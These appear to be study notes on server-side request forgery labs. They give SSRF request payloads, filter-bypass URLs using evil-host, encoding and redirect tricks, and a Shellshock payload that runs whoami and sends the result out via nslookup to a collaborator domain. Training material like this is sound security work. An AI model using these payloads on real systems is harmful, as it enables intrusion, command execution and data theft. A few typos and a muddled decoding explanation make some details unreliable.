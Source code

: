 # Server-side request forgery (SSRF)

Server-side request forgery is a web security vulnerability that allows an attacker to cause the server-side application to make requests to an unintended location.
A successful SSRF attack can often result in unauthorized actions or access to data within the organization. In some situations, the SSRF vulnerability might allow an attacker to perform arbitrary command execution.

## Finding hidden attack surface for SSRF vulnerabilities
- Partial URLs in requests
- URLs within data formats
- SSRF via the Referer header

## Blind SSRF
Blind SSRF vulnerabilities arise when an application can be induced to issue a back-end HTTP request to a supplied URL, but the response from the back-end request is not returned in the application's front-end response.

### LAB: Basic SSRF against the local server

    Change the POST /product/stock request's body to:
    stockApi=http://localhost/admin/delete?username=carlos

### LAB: SSRF with blacklist-based input filter
- Use an alternative IP representation of 127.0.0.1, such as 2130706433 (decimal value: (127 × 256³) + (0 × 256²) + (0 × 256¹) + (1 × 256⁰) = 2130706433), 017700000001 (octal representation), or 127.1.
- Register your own domain name that resolves to 127.0.0.1. You can use spoofed.burpcollaborator.net for this purpose.
- Obfuscate blocked strings using URL encoding or case variation.
- Provide a URL that you control, which redirects to the target URL. Try using different redirect codes, as well as different protocols for the target URL. For example, switching from an http: to https: URL during the redirect has been shown to bypass some anti-SSRF filters.
    
    `stockApi=http://LoCalHost/admIn/delete?username=carlos`

### LAB: SSRF with whitelist-based input filter
- You can embed credentials in a URL before the hostname, using the @ character. For example:
`https://expected-host:fakepassword@evil-host`
- You can use the # character to indicate a URL fragment. For example:
`https://evil-host#expected-host`
- You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
`https://expected-host.evil-host`
- You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request. You can also try double-encoding characters; some servers recursively URL-decode the input they receive, which can lead to further discrepancies.
- You can use combinations of these techniques together: 

    `stockApi=http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos`
-> How this URL bypasses the white-list: (`%2523` is the double-encoding of `#`)
    - First the server decodes the URL to `http://localhost%23@stock.weliketoshop.net/admin/delete?username=carlos` and considers `stock.weliketoshop.net` as the valid host and everything after it (`/admin/delete?username=carlos`) as the actual request path.
    - Since the fragment (`#`) is before `@`, it only affects username parsing, not the request path.
    - The real HTTP request made is: 
    `GET /admin/delete?username=carlos HTTP/1.1\r\nWHost: localhost`

### LAB: SSRF with filter bypass via open redirection vulnerability
Click "next product" and observe that the path parameter is placed into the `Location` header of a redirection response, resulting in an open redirection.
Change the `POST /product/stock` body to:

    stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos

### LAB: Blind SSRF with out-of-band detection
The server will track client's info by analyzing the URL specified at the Refe`rer header. It is common when testing for SSRF vulnerabilities to observe a DNS look-up for the supplied domain, but no subsequent HTTP request.

### LAB: Blind SSRF with Shellshock exploitation
In CGI (Common Gateway Interface) scripts, when a web server (e.g., Apache) executes a script, it passes HTTP request headers as environment variables. This means that headers like `User-Agent`, `Host`, `Cookie`, and `Referer` are converted into environment variables before running the script. When `Bash` starts a new shell session, it processes exported environment variables before executing the script. This is where Shellshock happens.
Replace the `User-Agent` string in the Burp Intruder request with the Shellshock payload: 

    () { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN

This (CVE-2014-6271) performs nslookup to your domain. Change the `Referer` header to `http://192.168.0.1:8080` and start a Sniper attack for every IP in the subnet.